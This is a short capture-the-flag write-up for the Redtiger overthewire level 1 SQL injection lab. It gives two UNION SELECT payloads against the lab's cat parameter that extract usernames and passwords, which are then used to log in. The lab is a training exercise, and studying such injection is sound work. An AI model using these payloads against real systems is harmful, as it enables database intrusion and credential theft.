


# SQL Vulnerabilities

Solved one lab from [Redtiger-overthewire](http://redtiger.labs.overthewire.org/).

## [Lab 13: Simple SQL-Injection](http://redtiger.labs.overthewire.org/level1.php)

### Writeup:

- Click on a category and intercept the request. We can see a GET request being sent to ```/level1.php?cat=1```.

- Try to manipulate the query by changing it to:
```cat=1+UNION+SELECT+1,2,3,4+FROM+level1_users--+-```

- This returns "3" and "4" in the response, indicating that we can extract other information in these fields.


- Use this information to display the username and password by changing the query to:
```/level1.php?cat=1+UNION+SELECT+1,2,username,password+FROM+level1_users--+-```


- The username and password is displayed.

- Lets login with those creds, we get flag and password for next level.


- The lab is solved.
